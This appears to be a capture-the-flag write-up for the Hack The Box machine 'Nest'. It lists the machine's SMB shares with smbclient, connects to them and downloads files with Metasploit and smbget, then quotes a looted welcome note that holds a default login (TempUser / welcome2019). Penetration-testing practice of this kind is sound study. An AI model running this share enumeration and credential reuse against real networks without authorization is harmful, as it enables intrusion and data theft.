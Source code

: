### Listing the shares:
```
$ smbclient  -L //10.10.10.178
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```



### You can do the following to access the shares:
```
$ smbclient //10.10.10.178/Data
            or            /Users
            or            /C$
            or			 /Secure$
```

```
$ smbclient //10.10.10.178/Users -U TempUser
```

### to download the files use:
`msf > use auxiliary/admin/smb/download_file`

or
`smbget  smb://username:password@ip/<share>/<path to file or folder>`
-R argument for folders

some interesting files contain the following:

#### file 01
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```

#### file 02
```
<File filename="C:\windows\System32\drivers\etc\hosts"/>
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
<File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
```
